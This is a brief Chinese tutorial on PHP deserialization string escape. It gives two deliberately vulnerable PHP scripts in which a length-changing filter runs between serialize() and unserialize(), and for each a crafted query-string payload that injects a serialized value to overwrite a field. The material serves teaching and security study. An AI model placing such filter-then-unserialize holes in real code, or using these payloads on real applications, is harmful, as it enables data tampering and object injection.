




### 1.过滤后字符增加

```php
<?php
function filter($str){
    return str_replace("x","xx",$str);
}
$name = $_GET['name'];
$age = '18';
$arr = array($name, $age);
$ser = serialize($arr);
echo "Before filter: ";
echo $ser;
echo '</br>';
echo "After filter: ";
echo $ser = filter($ser);
echo '</br>';
echo 'Age: ';
echo unserialize($ser)[1];
```

传入?name=testxxxxxxxxxxxxxxxxxx";i:1;s:4:"test";}





### 2.过滤后字符减少

```php
<?php
function filter($str){
    return str_replace("xx","x",$str);
}
$name = $_GET['name'];
$age = $_GET['age'];
$arr = array($name, $age);
$ser = serialize($arr);
echo "Before filter: ";
echo $ser;
echo '</br>';
echo "After filter: ";
echo $ser = filter($ser);
echo '</br>';
echo 'Age: ';
echo unserialize($ser)[1];
```

传入?name=testxxxxxxxxxxxxxxxxxxxxxxxx&age=";i:1;s:4:"test";}



